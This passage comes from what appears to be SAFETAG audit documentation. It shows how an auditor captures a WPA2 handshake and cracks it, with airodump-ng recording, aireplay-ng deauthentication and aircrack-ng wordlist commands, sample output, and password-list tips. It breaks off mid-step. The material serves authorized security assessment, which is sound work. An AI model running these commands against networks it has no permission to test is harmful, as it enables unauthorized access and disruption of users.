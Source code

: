   See the [Password Strength Activity](https://safetag.org/activities/password_strength) for details on password dictionary building
  and usage.

  **Step 2:** The attacker would then begin recording all (encrypted) wireless
  traffic associated with the organization’s access point:

  ```
  $ sudo airodump-ng -c 1 --bssid 1A:2B:3C:4D:5E:6F -w sampleorg_airodump mon0
   CH  1 ][ Elapsed: 12 mins ][ 2012-01-23 12:34 ][ fixed channel mon0: -1
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
   1A:2B:3C:4D:5E:6F  -70 100    12345    43210    6   1  12e. WPA2 CCMP   PSK sampleorg
   BSSID              STATION            PWR   Rate    Lost  Packets  Probes
   1A:2B:3C:4D:5E:6F  01:23:45:67:89:01    0    0e- 0e   186    12345
   1A:2B:3C:4D:5E:6F  AB:CD:EF:AB:CD:EF    0    1e- 1      0     1234
   1A:2B:3C:4D:5E:6F  AA:BB:CC:DD:EE:FF  -76    0e- 1      0     1122
   1A:2B:3C:4D:5E:6F  A1:B2:C3:D4:E5:F6  -80    0e- 1      0     4321
  ```

  wifite is also useful for this step, and claims to automatically de-auth (step
  3).

  **Step 3:** Next, the auditor forces a wireless client, possibly chosen at
  random, to disconnect and reconnect (an operation that is nearly always
  invisible to the user).

  In the example below, AB:CD:EF:AB:CD:EF is the MAC address of a laptop that
  was briefly disconnected in this way.

  ```
  $ aireplay-ng -0 1 -a 1A:2B:3C:4D:5E:6F -c AB:CD:EF:AB:CD:EF mon0
   15:54:48  Waiting for beacon frame (BSSID: 1A:2B:3C:4D:5E:6F) on channel -1
   15:54:49  Sending 64 directed DeAuth. STMAC: [AB:CD:EF:AB:CD:EF] [ 5| 3 ACKs]
  ```

  The goal of this step is to capture the cryptographic handshake that occurs
  when the targeted client reconnects. Try using different clients if the first
  one doesn't work, or try (physically) moving around.

  This handshake does not contain the WPA key itself, but once the the complete
  handshake process has been seen, the auditor (or a potential attacker) can
  leave the vicinity and run various password cracking tools to try and discover
  the password. While a complete password cracking tutorial is out of scope for
  SAFETAG documentation, below are three strategies:

  **Step 4:** The auditor attempts to discover the WPA password.

  A good wordlist with a few tweaks tends to break an unforunate number of
  passwords.  Using a collection of all english words, all words from the
  language of the organization being audited, plus a combination of all these
  words, plus relevant keywords, addresses, and years tends to crack most wifi
  passwords.

  ```bash
    $ aircrack-ng -w pwdpairs.txt -b 1A:2B:3C:4D:5E:6F sampleorg_airodump*.cap
  ```

  For WPA captures, John can either feed in to an aircrack process or attack a
  capture directly.  For captures, you first have to convert the .cap file (from
  wireshark, wifite, airodump, etc.) to a format that John likes.  The Jumbo
  version we use has conversion tools for this available:
